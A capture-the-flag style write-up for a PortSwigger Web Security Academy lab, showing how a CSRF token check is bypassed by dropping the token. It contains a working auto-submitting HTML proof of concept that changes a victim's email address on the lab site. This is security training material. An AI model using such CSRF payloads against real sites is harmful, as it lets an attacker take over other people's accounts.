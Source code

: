 ```yaml
---
title: 'Lab: CSRF where token validation depends on token being present'
tags: [Portswigger Web Security Academy, Web]

---
```


# Lab: CSRF where token validation depends on token being present
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab's email change functionality is vulnerable to CSRF.
* Goal:  To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You can log in to your own account using the following credentials: `wiener:peter`

## Recon
1. Login and update email to trace the package
It's very similar with previous lab $\to$ it contained `CSRF_token` as its carried data:
![](https://i.imgur.com/69FaW1R.png)

2. Try to use 1st method to bypass
![](https://i.imgur.com/Mm1YvZ5.png)
It seems can work properly.

## Exp - Delete `CSRF_token` directly to bypass
Actually, this is totally the same with the first lab's payload
Exploit Payload:
```javascript=
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>history.pushState('', '', '/')</script>

    <form action="https://0aa70059042bf55d80101c7a00930051.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="danger&#64;gmail&#46;com" />
    </form>
    <script>
          document.forms[0].submit();
    </script>
  </body>
</html>
```
:::spoiler Success Screenshot
![](https://i.imgur.com/EN6dFEO.png)
:::

## Reference
[Lab: CSRF where token validation depends on token being present:CSRF](https://blog.csdn.net/ZripenYe/article/details/120793710)
[从0到1完全掌握 CSRF](https://zhuanlan.zhihu.com/p/517735618)